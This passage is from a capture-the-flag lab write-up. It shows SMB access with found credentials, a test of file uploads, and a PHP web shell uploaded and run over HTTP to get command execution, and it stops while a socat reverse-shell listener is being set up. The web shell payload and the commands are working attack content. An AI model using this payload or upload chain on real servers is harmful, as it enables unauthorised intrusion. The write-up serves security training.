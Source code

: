 Found a valid account in SMB!

**Let's connect to `SECURED` share!**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:55:00(HKT)]
└> smbclient //$RHOSTS/SECURED -U ArthurMorgan%{Redacted}
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Mar 22 07:04:28 2021
  ..                                  D        0  Thu Mar 11 20:52:29 2021
  note.txt                            A       45  Thu Mar 11 20:19:52 2021
```

The `note.txt` is the same that we've found in HTTP on port 8080 `/dev/note.txt`.

**Now, let's test if we can upload a file or not:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:56:18(HKT)]
└> touch anything

smb: \> put anything
putting file anything as \anything (0.0 kb/s) (average 0.0 kb/s)
smb: \> dir
  .                                   D        0  Fri Jan 20 17:56:25 2023
  ..                                  D        0  Thu Mar 11 20:52:29 2021
  note.txt                            A       45  Thu Mar 11 20:19:52 2021
  anything                            A        0  Fri Jan 20 17:56:25 2023

┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:56:03(HKT)]
└> curl http://coldvvars.thm:8080/dev/anything
```

We can! And we're able to access the uploaded file in HTTP on port 8080 `/dev/<file>`!

**Armed with above information, we can upload a PHP webshell!**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:57:54(HKT)]
└> echo '<?php system($_GET["cmd"]);?>' > webshell.php

smb: \> put webshell.php
putting file webshell.php as \webshell.php (0.0 kb/s) (average 0.0 kb/s)

┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:58:18(HKT)]
└> curl http://coldvvars.thm:8080/dev/webshell.php --get --data-urlencode "cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Boom! We have Remote Code Execution (RCE)!

Let's get a reverse shell!

- Setup a listener: (I'm using `socat` for stable shell)

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:59:00(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443      
2023/01/20 17:59:19 socat[86628] N opening character device "/dev/pts/1" for reading and writing
2023/01/20 17:59:19 socat[86628] N listening on AF=2 0.0.0.0:443
```
